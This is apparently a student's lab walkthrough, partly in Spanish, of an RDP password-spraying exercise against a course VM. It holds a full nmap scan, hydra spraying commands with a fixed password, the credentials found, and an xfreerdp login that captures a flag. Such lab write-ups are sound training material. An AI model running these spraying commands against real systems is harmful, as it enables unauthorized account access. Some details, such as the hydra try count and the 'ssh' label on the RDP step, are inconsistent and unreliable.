 # Walk: Password Attacks - SSH and RDP - VM #2

## Fecha: 19/02/2025
## Host: Windows
## IP: 192.168.202.202
## Objetivo
Follow the steps outlined in this section to leverage a dictionary attack to gain access to RDP on VM #2 (BRUTE2). Find the flag on either one of the user's desktops. To reduce the time it takes to perform the password spraying, you can create a list with the two usernames: _justin_ and _daniel_.
## Herramientas
1. nmap
2. hydra
## Procedimiento y comandos
#### Paso 1: Escanemos el host para enumerar servicios ssh:
- `nmap -sV --open -oN vm-1.nmap-result.txt 192.168.202.202`
```
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd 1.4.1
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  http          Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
#### Paso 2: Ejecutamos el ataque de diccionario con hydra:
- `hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" -s 3389 rdp://192.168.202.202`
```
un paquete de doritos despues > > >
...
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:14344399/p:1), ~3586100 tries per task
[DATA] attacking rdp://192.168.202.202:3389/
...
[3389][rdp] host: 192.168.202.202 login: daniel password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
[3389][rdp] host: 192.168.202.202 login: justin password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
...
```
- Podemos crear una lista con los dos usuarios:
	- `echo "justin\ndaniel" > users.txt`
	- ` hydra -L users.txt -p "SuperS3cure1337#" -s 3389 rdp://192.168.202.202`

#### Paso 3: Nos conectamos por rdp con el usuario daniel:
- ` xfreerdp /v:192.168.202.202 /u:daniel /p:SuperS3cure1337# +clipboard /cert:ignore`
- Obtenemos el flag.
